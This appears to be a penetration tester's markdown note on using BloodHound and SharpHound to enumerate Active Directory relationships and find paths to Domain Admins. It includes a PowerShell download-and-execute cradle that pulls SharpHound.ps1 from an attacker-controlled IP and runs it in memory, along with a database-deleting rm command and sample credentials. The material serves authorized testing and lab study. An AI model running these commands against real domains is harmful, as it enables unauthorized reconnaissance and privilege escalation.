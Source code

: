 ```yaml
---
tags:
  - tool
  - active_directory
---
```

# BloodHound

Reveal hidden relationships within AD

SharpHound - Official data collector for BloodHound, performs all enumeration automatically and outputs to .json files ([documentation](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html))

## Setup

### SharpHound

We first need to collect data from our target with [SharpHound](https://github.com/BloodHoundAD/SharpHound)

```bash
# Grab local collectors in kali

cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe .
```

```bash
# Import Sharphound.ps1
iex(new-object net.webclient).downloadstring("http://$OUR_IP/SharpHound.ps1")
Get-Help Invoke-BloodHound

# Execute Bloodhound
.\SharpHound.exe -c All --outputprefix "$USER_$DOMAIN"
Invoke-BloodHound -CollectionMethod All -OutputPrefix "$USER_$DOMAIN"
Invoke-BloodHound -CollectionMethod All -OutputPrefix "$USER_$DOMAIN"
```

### BloodHound

We can now run BloodHound

```bash
# Clear the database before starting a new session
sudo rm -r /etc/neo4j/data

# Start neo4j (creds - neo4j:neo4j)
sudo neo4j start
firefox http://localhost:7474 &
```

```bash
# Start bloodhound
bloodhound
```

We can now use the `Upload Data` function on the right side of the GUI to upload the zip file, or drag-and-drop it into BloodHound's main window.

See [here](https://support.websoft9.com/en/docs/neo4j) if you forgot your password (I set mine to `Password123`)

## Analysis

- Start by marking owned targets
- We can now get a high level overview of the environment

`Find Shortest Paths to Domain Admins` (at the bottom of analysis tab)
